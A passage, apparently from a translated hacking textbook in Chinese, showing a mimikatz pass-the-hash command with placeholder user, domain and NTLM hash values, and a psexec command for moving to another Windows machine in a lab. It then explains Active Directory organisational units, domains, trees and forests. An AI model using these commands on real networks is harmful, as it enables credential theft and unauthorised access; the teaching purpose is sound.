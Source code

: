 要执行 pass-the-hash 攻击，使用 mimikatz 加载从 LSSAS 进程中提取的其中一个哈希值：

```
mimikatz # sekurlsa::pth /user:<User> /domain:<Domain> /ntlm:<NTLM Hash>
```

将 `<User>`、`<Domain>` 和 `<NTLM Hash>` 替换为提取的用户名、域和 NTLM 密码哈希值。

现在你可以冒充用户并访问他们的资源。例如，如果我们的虚拟环境中包含另一台 Windows 机器，你可以通过使用 `psexec` 工具在另一台机器上运行 PowerShell 终端来连接并访问它：

```
PS> psexec -i \\<Other machine's IP address> powershell
```

你可以从 Microsoft 免费下载`psexec`。

### **探索公司 Windows 网络**

一旦攻击者进入网络，他们接下来应该做什么？在企业网络中，他们可能通过监听网络流量或查询域控制器来了解网络的设备及相关的安全策略。

大型公司必须管理跨越数千台设备的安全策略，因此它们通常将机器组织成一个层级结构，包含组织单位、域、树和森林。*组织单位 (OU)* 是层级结构中的最低级别，由用户、安全组和计算机的分组组成。系统管理员可以自由选择 OU 的结构。例如，一家大型银行的管理员可能会选择为每个位置创建一个 OU，如弗吉尼亚分行、加利福尼亚分行和佛罗里达分行。在每个 OU 内，管理员可能会创建另外两个 OU，一个用于包含出纳机，另一个用于员工账户。这样的分组允许系统管理员为每个 OU 分配不同的权限。

一组 OU 被称为*域*，这些域按树的结构分为父域和子域。树又被分组成一个森林。在同一树中的域之间建立信任关系，从而允许授权用户在域之间移动。例如，系统管理员可能希望将银行总部的机器与银行分行的机器隔离开来。因此，管理员可能会创建两个独立的域：`company.headquarters` 和 `company.branches`。稍后，如果银行收购了一家已经有域基础设施的小银行，系统管理员可能会通过将收购银行的域设为主银行域 `company.branches` 的子域来连接这些域。

图 15-2 展示了一个组织结构，包括一个森林、两棵树、三个域和七个组织单位 (OU)。

![image](img/ch15fig02.jpg)

*图 15-2：可视化具有多个域的公司网络结构*

域控制器管理这些域及其安全策略，并运行四个关键服务：*DNS 服务*、*活动目录服务 (ADS)*、*轻量级目录访问协议 (LDAP)* 服务和*Kerberos* 认证服务。我们从查看 DNS 服务开始。

### **攻击 DNS 服务**
